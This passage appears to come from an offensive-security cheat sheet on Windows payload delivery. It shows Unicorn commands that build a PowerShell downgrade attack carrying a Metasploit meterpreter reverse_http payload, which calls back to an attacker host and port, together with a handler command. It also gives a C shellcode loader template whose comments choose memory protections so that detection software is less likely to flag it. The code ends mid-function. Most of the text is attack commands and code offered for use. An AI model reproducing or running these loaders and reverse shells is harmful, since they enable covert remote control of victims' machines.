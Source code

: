 ###### [Windows] PowerShell - Unicorn

[`Magic Unicorn`](https://github.com/trustedsec/unicorn) is a tool for using a
PowerShell downgrade attack and inject shellcode (custom, `Cobalt Strike`
`beacon` or `Metasploit` `meterpreter`) straight into memory.

*Ensure Metasploit is installed if using Metasploit methods.*
If using `meterpreter` payloads the script will generate two files :
 - `PowerShell_attack.txt`
 - `unicorn.rc`

The text file contains all of the code needed in order to inject the
PowerShell attack into memory and the `rc` file can be used to start a
`Metasploit` reverse handler.

The commands are as follow:

```bash
python unicorn.py windows/meterpreter/reverse_http <HOST_IP> <HOST_PORT>

# On host.
msfconsole -r unicorn.rc

# On target.
# Execute the PowerShell command contained in the powershell_attack.txt file
```

###### [Windows] Basic C loader - CreateThread (intra-process)

*The shellcode loaders below (especially the remote one) are likely to be flag
by all `Endpoint detection and response` and behavioural anti-virus products.*

The `C` code below may be used as a template for running a shellcode in the
current process:

```c
#include "stdio.h"
#include "Windows.h"

int _tmain(int argc, TCHAR** argv) {
    // Hex encoded binary shellcode.
    // PoC example: msfvenom -a x64 -p windows/x64/exec CMD=calc.exe -f c
    unsigned char shellcode[] = "";

    // Allocate the memory section for the shellcode as PAGE_READWRITE (to avoid more detected PAGE_EXECUTE_READWRITE).
    LPVOID shellcodeBaseAddress = VirtualAlloc(0, sizeof(shellcode), MEM_COMMIT, PAGE_READWRITE);

    if (!shellcodeBaseAddress) {
        printf("Allocation of memory using VirtualAlloc failed: %x\n", GetLastError());
        return 1;
    }

    // Copy the shellcode in the newly allocated memory section.
    memcpy(shellcodeBaseAddress, shellcode, sizeof(shellcode));

    // Switch the protection of the shellcode's memory section to PAGE_EXECUTE_READ to execute the shellcode.
    DWORD OldProtectt = 0;
    BOOL virtualProctectStatus = VirtualProtect(shellcodeBaseAddress, sizeof(shellcode), PAGE_EXECUTE_READ, &OldProtectt);

    if (!virtualProctectStatus) {
        printf("Switching the protection of shellcode memory to PAGE_EXECUTE_READ using VirtualProtect failed: %x\n", GetLastError());
        return 1;
    }
```